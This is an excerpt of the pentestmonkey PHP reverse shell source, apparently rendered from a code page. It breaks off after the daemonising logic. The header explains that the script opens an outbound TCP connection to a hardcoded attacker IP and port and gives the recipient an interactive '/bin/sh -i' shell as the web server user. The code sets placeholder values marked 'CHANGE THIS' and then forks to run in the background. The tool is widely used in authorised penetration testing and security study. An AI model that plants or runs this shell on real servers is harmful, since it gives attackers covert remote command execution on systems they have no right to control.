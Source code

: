 ```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
```